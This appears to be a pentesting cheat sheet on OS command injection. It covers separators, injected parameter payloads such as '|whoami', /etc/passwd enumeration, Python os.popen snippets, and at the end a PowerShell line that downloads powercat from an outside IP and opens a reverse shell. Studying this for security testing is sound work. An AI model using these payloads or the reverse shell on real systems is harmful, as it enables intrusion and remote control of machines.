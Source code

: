 # OS Command Injection
Also known as "shell injection"

OS Command Injection Web applications often need to interact with the underlying operating system, such as when a file is created through a file upload mechanism.
Web applications should always offer specific APIs or functionalities that use prepared commands for the interaction with the system. Prepared commands provide a set of functions to the underlying system that cannot be changed by user input. However, these APIs and functions are often very time consuming to plan and develop. Sometimes a web application needs to address a multitude of different cases, and a set of predefined functions can be too inflexible. In these cases, web developers often tend to directly accept user input, then sanitize it. This means that user input is filtered for any command sequences that might try to change the application's behavior for malicious purposes.

















Semicolons can be used in a majority of command lines, such as PowerShell or Bash as a delimiter for multiple commands. Alternatively, we can use URL-encoded semicolon, represented as `%3B`

Two ampersands `&&` to specify two consecutive commands.
For the Windows CMD we can also use one ampersand `&`.














Placing the additional command separator & after the injected command is useful because it separates the injected command from whatever follows the injection point. This reduces the chance that what follows will prevent the injected command from executing.

Example:
`productId=8&storeId=1|whoami`
`productId=8 & whoami & storeId=1`
`productId=8 & whoami # (this is a comment) storeId=1`












How many non-root/non-service/non-daemon users are there?
`awk -F':' '{ if ($3 >= 1000 && $1 != "nobody" ) print $1 }' /etc/passwd | wc -l`

What is the [USER]'s shell set as?
`getent passwd [USER]| awk -F':' '{print $7}'`
	- eg: `getent passwd www-data | awk -F':' '{print $7}'`










## Python
import os; print(os.popen("ls -l").read())
import os; print(open("path/to/your/file.txt", "r").read())









## Windows
Tell wheter is CMD or PowerShell:
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```


### Leverage command injection to achieve system access

- `Powercat` <https://github.com/besimorhino/powercat>

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```













